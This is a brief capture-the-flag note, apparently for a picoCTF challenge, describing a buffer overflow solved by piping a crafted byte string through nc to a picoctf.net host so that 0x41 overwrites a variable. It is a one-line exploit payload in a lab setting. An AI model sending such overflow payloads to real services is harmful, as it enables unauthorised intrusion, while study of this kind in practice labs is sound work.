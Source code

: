1. vulnerability found buffer overflow
2. echo -e "qweqweqweqweqweqAAAAAAAA\x41\x00\x00\x00" | nc saturn.picoctf.net 62836
3. we can fill 16 characters to modift input, then overflow 0x41 which is number 65, to variable num
4. we may get the flag
